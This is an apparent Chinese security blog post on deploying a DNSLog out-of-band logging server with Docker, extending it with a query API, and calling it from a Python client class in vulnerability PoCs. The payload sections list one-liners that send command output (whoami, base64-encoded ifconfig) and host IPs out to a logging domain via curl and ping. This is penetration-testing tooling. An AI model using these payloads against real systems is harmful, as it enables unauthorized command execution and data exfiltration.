



Title:DNSLog的docker部署和API调用
Date: 2020-08-04 10:20
Category: 工具相关
Tags: dnslog,docker,API
Slug: 
Authors: bit4woo
Summary:DNSLog的docker方式部署、API改造、API自动化调用


本文档主要记录使用docker搭建dnslog的过程，以及对原版的改造实现API自动调用。使用如下项目版本，基于[原版](https://github.com/BugScanTeam/DNSLog)做了一些修改：

https://github.com/bit4woo/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>



### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/bit4woo/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod +x start.sh
CMD ["./start.sh"]

EXPOSE 80
```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保存settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
#!/bin/bash
python manage.py runserver 0.0.0.0:80
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -d -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导

docker exec -it container_ID_or_name /bin/bash
./start.sh
```


### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。


### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**


升级操作

```bash
#备份数据库和配置文件
mv /DNSLog/dnslog/dnslog/settings.py /DNSLog/dnslog/dnslog/settings.py.bak
mv /DNSLog/dnslog/dsqlite3 /DNSLog/dnslog/dsqlite3.bak
#拉取新的网站源码
cd /DNSLog/dnslog/
git pull
#恢复数据库和配置文件
mv /DNSLog/dnslog/dnslog/settings.py.bak /DNSLog/dnslog/dnslog/settings.py
mv /DNSLog/dnslog/dsqlite3.bak /DNSLog/dnslog/dsqlite3

#如果操作过程中docker自动退出而无法启动，可以通过docker cp进行文件的操作
root@dnslog:~# docker cp cranky_cray:/DNSLog/dnslog/dnslog/settings.py.bak settings.py.bak
root@dnslog:~# docker cp settings.py.bak cranky_cray:/DNSLog/dnslog/dnslog/settings.py

root@dnslog:~# docker cp cranky_cray:/DNSLog/dnslog/db.sqlite3.bak db.sqlite3.bak
root@dnslog:~# docker cp db.sqlite3.bak cranky_cray:/DNSLog/dnslog/db.sqlite3
```

### 0x4、payload使用技巧

**兼容windows和linux**

```bash
#方法一、||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com

#方法二、群里大佬发了一个兼容windows和Linux的ping命令!!!6666
ping -nc 3 xxx.test.0v0.com
```


**命令优先执行**

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边


使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

测试效果如下图:




**消除空格(Linux下)**

```bash
id|base64 #使用base64对执行的结果进行编码

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法

curl test.0v0.com/`ifconfig |base64 |tr -d '\n'`
#相同的效果
```



**window下的curl**

```bash
start http://%OS%.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```


### 0x5、常用payload汇总


```bash
#1.判断系统类型(windows\linux通用)
ping `uname`.0v0.com || ping %OS%.0v0.com

#2.ping，dns类型payload(windows\linux通用)
ping -nc 3 xxx.0v0.com

======================================Linux分割线=====================================

#3.从DNS记录中获取源IP地址
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com

#4.获取命令结果
curl test.0v0.com/`ifconfig|base64 -w 0`

#5.当频繁请求时，如果使用固定的域名，服务器可能不会发起请求，而是使用缓存，也就是说我们的某次请求将有可能收不到DNS请求。
#下面这个payload可以提供变化的子域名,保证每次都能真正发起DNS请求。
ping -c 3 `date +%H-%M-%S`.test.0y0.link

```

### 0x6、对DNSlog的改造

一切为了自动化，想要在各种远程命令执行的poc中顺利使用DNSlog，对它进行了改造，新增了三个API接口：

```python
http://127.0.0.1:8000/apilogin/{username}/{password}/
#http://127.0.0.1:8000/apilogin/test/123456/
#登陆以获取token
接口以JSON格式返回结果：
{"status": true, "token": "ed691017b35866ab734e44c92c1a066a"}
{"status": false, "token": ""}


http://127.0.0.1:8000/apiquery/{logtype}/{subdomain}/{token}/
#http://127.0.0.1:8000/apiquery/dns/testdomain/ed691017b35866ab734e44c92c1a0669/
#查询特定域名的某类型记录
{"status": true, "content": "rmiyso.bit.0y0.link.,rmiyso.bit.0y0.link."}
{"status": false, "content": ""}


http://127.0.0.1:8000/apidel/{logtype}/{udomain}/{token}/
#http://127.0.0.1:8000/apidel/dns/testdomain/a2f78f403d7b8b92ca3486bb4dc0e498/
#删除特定域名的某类型记录
{"status": true}
{"status": false}
```

改造后的项目地址https://github.com/bit4woo/DNSLog

### 0x7、本地接口类

服务端OK了之后，为了在poc中快速调用，也在本地实现了一个类：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

import hashlib
import time
import requests
import json

class DNSlog():
    def __init__(self):
        self.subdomain = hashlib.md5(str(time.time())).hexdigest()
        self.user_host = "bit.0y0.link"
        self.api_host = "admin.0y0.link"
        self.API_token = "ec6fd9c36cca4dac36fcaba1cfed3sce"
        self.username= "bit4woo"
        self.password = "password"

    def getPayload(self):
        payload = "{0}.{1}".format(self.subdomain, self.user_host)
        return payload

    # to get token
    def __getToken__(self,username=None,password=None):
        if username != None:
            self.username = username
        if password != None:
            self.password = password
        url = "http://{0}/apilogin/{1}/{2}/".format(self.api_host,self.username,self.password)
        # print("DNSlog Login: {0}".format(url))
        response = requests.get(url, timeout=60, verify=False, allow_redirects=False)
        if response.status_code == 200:
            status = json.loads(response.content)["status"]
            token = json.loads(response.content)["token"]
            if status == True:
                self.API_token = token
                print("get API token successed")
                return True
            else:
                print("get API token failed")
                return False
        else:
            print("DNSlog Server Error!")
            print("get API token failed")
            return False

    def query(self,subdomain=None,type="dns",token=None):
        if token != None:
            self.API_token = token

        if type.lower() in ["dns","web"]:
            pass
        else:
            print("error type")
            return False

        if subdomain != None:
            self.subdomain = subdomain
        url = "http://{0}/apiquery/{1}/{2}/{3}/".format(self.api_host,type,self.subdomain,self.API_token)
        #print("DNSlog Query: {0}".format(url))
        try:
            rep = requests.get(url, timeout=60, verify=False, allow_redirects=False)
            status = json.loads(rep.content)["status"]
            content = json.loads(rep.content)["content"]
            if status ==True:
                if len(content)>=1:
                    return True
                else:
                    return False
            else:
                print("you should check you token!!!")
                self.__getToken__()
                rep = requests.get(url, timeout=60, verify=False, allow_redirects=False)
                status = json.loads(rep.content)["status"]
                return status
        except Exception as e:
            return False

    def delete(self, subdomain,type="dns", token =None):
        if token != None:
            self.API_token = token

        if type.lower() in ["dns","web"]:
            pass
        else:
            print("error type")
            return False

        if subdomain != None:
            self.subdomain = subdomain
        url = "http://{0}/apidel/{1}/{2}/{3}/".format(self.api_host,type,self.subdomain,self.API_token)
        #print("DNSlog Delete: {0}".format(url))
        try:
            rep = requests.get(url, timeout=60, verify=False, allow_redirects=False)
            status = json.loads(rep.content)["status"]
            return status
        except Exception as e:
            return False

if __name__ == "__main__":
    dnslog = DNSlog()
    payload = dnslog.getPayload()
    print(dnslog.query())
```

调用流程：

1. 首先实例化DNSlog类，会根据当前时间生成一个子域名。
2. 调用getPayload()方法获取payload
3. 在自己的PoC中使用payload
4. 使用query()检查DNSlog是否收到该域名的相关请求，有则认为命令执行成功漏洞存在，否则任务不存在。

```
最简单的使用模式：

    dnslog = DNSlog()
    payload = dnslog.getPayload()
    print(dnslog.query())

```

